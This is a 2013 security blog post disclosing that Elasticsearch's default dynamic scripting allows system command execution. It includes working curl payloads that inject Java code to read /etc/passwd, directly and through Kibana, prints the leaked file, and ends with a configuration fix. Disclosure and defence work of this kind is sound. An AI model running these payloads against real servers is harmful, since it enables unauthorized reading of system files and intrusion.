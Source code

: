 ```yaml
---
date: 2013-11-30 20:33:00 GMT
slug: elasticsearch-command-execution-using-script
tumblr_post_url: http://blog.liftsecurity.io/post/68592779657/elasticsearch-command-execution-using-script
tags: elasticsearch,feature,command execution,script
title: Elasticsearch Command Execution using "script"
type: text
---
```


In the process of trying to full text index all of the source code from node modules within npm for the Node Security Project, I encountered a feature of Elasticsearch that I couldn't stay away from playing with: scripting.  
  
Sometimes the most innocent of features can create a vulnerability. Scripting is enabled by default in Elasticsearch and if left bound to a public interface allows for easy system command execution.  
  
**Elasticsearch**  
  
Here is a simple example to read /etc/passwd  
  

```bash
# Create a document
curl -XPUT :9200/blog/article/1/ -d '{"foo":"bar"}'
```

```bash
# Update it running the provided script. It puts the file contents in the content field.
curl -XPOST :9200/blog/article/1/_update -d '{"script": "ctx._source.content = 1;import java.util.*;import java.io.*;String content=new Scanner(new File("/etc/passwd")).useDelimiter("\\Z").next();ctx._source.content=content"}'
```
  
```bash
# Now get the content
curl :9200/blog/article/1/
```
  
**Result**
```js
{  
"_index" : "blog",  
"_type" : "article",  
"_id" : "2",  
"_version" : 2,  
"exists" : true, "_source" : {"content":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/bin/sh\nbin:x:2:2:bin:/bin:/bin/sh\nsys:x:3:3:sys:/dev:/bin/sh\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/bin/sh\nman:x:6:12:man:/var/cache/man:/bin/sh\nlp:x:7:7:lp:/var/spool/lpd:/bin/sh\nmail:x:8:8:mail:/var/mail:/bin/sh\nnews:x:9:9:news:/var/spool/news:/bin/sh\nuucp:x:10:10:uucp:/var/spool/uucp:/bin/sh\nproxy:x:13:13:proxy:/bin:/bin/sh\nwww-data:x:33:33:www-data:/var/www:/bin/sh\nbackup:x:34:34:backup:/var/backups:/bin/sh\nlist:x:38:38:Mailing List Manager:/var/list:/bin/sh\nirc:x:39:39:ircd:/var/run/ircd:/bin/sh\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh\nnobody:x:65534:65534:nobody:/nonexistent:/bin/sh\nlibuuid:x:100:101::/var/lib/libuuid:/bin/sh\nsyslog:x:101:103::/home/syslog:/bin/false\nmessagebus:x:102:105::/var/run/dbus:/bin/false\nlandscape:x:103:108::/var/lib/landscape:/bin/false\nsshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin\nwhoopsie:x:105:109::/nonexistent:/bin/false\nelasticsearch:x:106:113::/usr/share/elasticsearch:/bin/false\nntp:x:107:114::/home/ntp:/bin/false"}  
}
```


  
**Kibana**  
Sometimes Elasticsearch is hidden behind the veil of another service like Kibana. It's still possible to get execution using Kibana, as it essentially proxies our queries straight into Elasticsearch.

```bash
curl 'http://kibana.example.net/logstash-2013.11.11/_search' -X POST -H 'Authorization: Basic eWV0aXM6em9vbXpvb21idXR0ZXI=' -H 'Host: kibana.example.net' -d @script_kibana
```


  
_Contents of @script_kibana_

```js
{"query":{"filtered":{"query":{"bool":{"should":[{"query_string":{"query":"*"}}]}},"filter":{"bool":{"must":[{"match_all":{}},{"range":{"@timestamp":{"from":1384193353299,"to":1384196953300}}},{"bool":{"must":[{"match_all":{}}]}}]}}}},"highlight":{"fields":{},"fragment_size":2147483647,"pre_tags":["@start-highlight@"],"post_tags":["@end-highlight@"]},"size":1,"sort":[{"@timestamp":{"order":"desc"}}],"script_fields": {"uid_in_script": **{"script": "import java.util.*;import java.io.*;String content = new Scanner(new File("/etc/passwd")).useDelimiter("\Z").next();return content;"}**}}
```


  
  
**Avoid having somebody run commands on your Elasticsearch servers**  
  
You can disable this feature by adding the following to your Elasticsearch config file, then restarting the service. Keep in mind that you will want to disable this on all the nodes in your cluster.

```
script.disable_dynamic: true
```


  
Of course if you need to have scripting enabled and don't have your nodes exposed to the outside world I would just recommend that you build your elastisearch payloads very methodically not letting the user specify specifics that end up in the query / update payloads.
